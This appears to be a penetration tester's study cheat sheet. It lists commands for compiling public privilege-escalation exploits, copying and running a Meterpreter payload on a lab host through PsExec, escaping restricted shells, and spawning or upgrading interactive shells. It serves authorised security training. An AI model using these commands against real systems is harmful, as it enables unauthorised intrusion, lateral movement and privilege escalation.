 // DECODING
base64 -d <text-file>

// COMPILING EXPLOITS

* * *i686-w64-mingw32-gcc 40564.c -o MS11046.exe -lws2_32
gcc –m64 -Wl,--hash-style=both 44298.c -o privesc
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc exploit.c -o exploit
wine syncbreeze_exploit.exe
whereis gcc

// MOUNT SHARE AND PSEXEC
	1) net use * \\10.11.1.21\C$
	2) Z:
	3) copy shell to somewhere writable on remote host
	4) PsExec.exe -accepteula \\10.11.1.21 \Users\administrator.svcorp\Desktop\meter.exe

##########################################################################
##					LINUX PRIVILEGE ESCALATION 							##
##########################################################################
// RESTRICTED SHELL (RBASH) ESCAPE
# https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
echo $SHELL 
echo os.system("/bin/bash")

// SPAWNING SHELL
use Socat, get socat portable binary
# Do this once you get on a Linux box for better shell; e.g., tab autocomplete
echo $TERM
CTRL+Z
stty raw -echo
fg
<ENTER>
<ENTER>
export TERM=<echo $TERM value>
echo $TERM 

// UPGRADE LINUX TTY
python -c 'import pty;pty.spawn("/bin/bash")'
perl -e 'exec "/bin/sh";'
echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl> exec "/bin/sh";
ruby> exec "/bin/sh"
lua> os.execute('/bin/sh')
vi> :!bash
vi> :set shell=/bin/bash:shell
nmap> !sh
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
